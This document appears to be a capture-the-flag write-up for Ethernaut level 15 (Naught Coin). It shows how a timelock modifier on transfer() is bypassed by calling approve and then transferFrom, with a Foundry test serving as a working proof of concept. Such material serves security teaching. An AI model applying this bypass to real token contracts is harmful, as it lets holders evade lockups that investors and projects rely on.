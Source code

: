 # Level 15 - Naught Coin

## Objectives

- Transfer tokens to another address skipping the lockout period.

## Contract Overview

The `NaughtCoin` contract has a `transfer` function that overrides the `transfer` function of the ERC20 contract. It adds a modifier `lockTokens` that prevents the initial owner from transferring tokens until the `timeLock` has passed.

## Static analysis (slither)

Here are the logs from the slither:

![alt text](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/img/NaughtCoin_slither.png)

## Finding the weak spots

There are two important areas in this vulnerable contract: function `transfer()` and the modifier `lockTokens()`.

```solidity

  function transfer(address _to, uint256 _value) override public lockTokens returns(bool) {
    super.transfer(_to, _value);
  }

  // Prevent the initial owner from transferring tokens until the timelock has passed
  modifier lockTokens() {
    if (msg.sender == player) {
      require(block.timestamp > timeLock);
      _;
    } else {
     _;
    }
  }
```

To transfer the tokens out of our account we could have used the `transfer()` function. However, as it uses a modifier that checks for the time lock period, this option is not possible.

There are two-ways to transfer tokens:

- we can use the `transfer()` function to directly transfer tokens to a recipient, but this can only be done by the `msg.sender`.
- we can use the `transferFrom()` function, which allows an external arbitrary sender (which may be the owner of the tokens themselves) to transfer tokens on behalf of the owner to a recipient. Before sending the tokens, the owner must `approve` the sender to manage that specific amount of tokens.

Therefore, if the initial owner has given approval for a third-party to transfer tokens on their behalf, the transferFrom() function could be used to circumvent the restriction imposed by the lockTokens modifier.

## Potential attack scenario (hypothesis)

An attacker create another account to transfer all of his tokens before the timelock period.

An attacker can transfer tokens by using the fact that the ERC20 `transferFrom` function is not `timeLock` protected.

## Plan of the attack

1. Attacker creates another account.
2. Attacker approves himself to manage the whole amount of tokens before calling `transferFrom`.
3. Attacker calls `transferFrom`.
4. Attacker gets his token balance in the `NaughtCoin` contract to 0 because of transferring all his tokens to another account.

## Proof of Concept

Here is a simplified version of the unit test exploiting the vulnerability ([complete version here](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/test/15-NaughtCoin.t.sol))

```solidity
  emit log_named_address("Attacker's address: ", address(attacker));
        emit log_string("Starting the exploit...");

        uint attackerBalanceBefore = naughtCoinContract.balanceOf(attacker);

        emit log_string(
            "--------------------------------------------------------------------------"
        );
        emit log_named_uint("Balance before", attackerBalanceBefore);

        // 1. Attacker creates another account.
        address anotherAttackerAccount = makeNameForAddress(
            "anotherAttackerAccount"
        );
        emit log_named_uint(
            "Balance of another account before attack",
            naughtCoinContract.balanceOf(anotherAttackerAccount)
        );
        emit log_string(
            "--------------------------------------------------------------------------"
        );
        // 2. Attacker approves himself to manage the whole amount of tokens before calling `transferFrom`.
        naughtCoinContract.approve(attacker, attackerBalanceBefore);

        // 3. Attacker calls `transferFrom`.
        naughtCoinContract.transferFrom(
            attacker,
            anotherAttackerAccount,
            attackerBalanceBefore
        );

        uint attackerBalanceAfter = naughtCoinContract.balanceOf(attacker);

        // 4. Attacker gets his token balance in the `NaughtCoin` contract to 0 because of transferring all his tokens to another account.
        emit log_named_uint("Balance after", attackerBalanceAfter);

        emit log_named_uint(
            "Balance of another account after attack",
            naughtCoinContract.balanceOf(anotherAttackerAccount)
        );
        emit log_string(
            "--------------------------------------------------------------------------"
        );
        // Assert that the attacker has no more tokens
        assertEq(naughtCoinContract.balanceOf(attacker), 0);

        // // Assert that the secondary account received all the tokens
        assertEq(
            naughtCoinContract.balanceOf(anotherAttackerAccount),
            attackerBalanceBefore
        );
```

Here are the logs from the exploit contract:

![alt text](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/img/NaughtCoin.png)

## References

- [Blog Aditya Dixit](https://blog.dixitaditya.com/series/ethernaut)
- [Blog Stermi](https://stermi.xyz/blog/ethernaut-challenge-15-solution-naught-coin)
- [D-Squared YT - Ethernaut CTF Series](https://www.youtube.com/watch?v=_ylKN2R_o-Y&list=PLiAoBT74VLnmRIPZGg4F36fH3BjQ5fLnz)
- [Smart Contract Programmer YT - Ethernaut](https://www.youtube.com/playlist?list=PLO5VPQH6OWdWh5ehvlkFX-H3gRObKvSL6)
- [Mastering Ethereum book](https://github.com/ethereumbook/ethereumbook)
- [ChmielewskiKamil](https://github.com/ChmielewskiKamil/ethernaut-foundry)

## Acknowledgements

The structure of my reports is based on the insights provided by:

- [ChmielewskiKamil](https://github.com/ChmielewskiKamil/ethernaut-foundry)
- [Joran Honig Twitter thread](https://twitter.com/joranhonig/status/1539578735631949825?s=20&t=Kp6iDNXfRKQUBbsb_Yj5SQ)
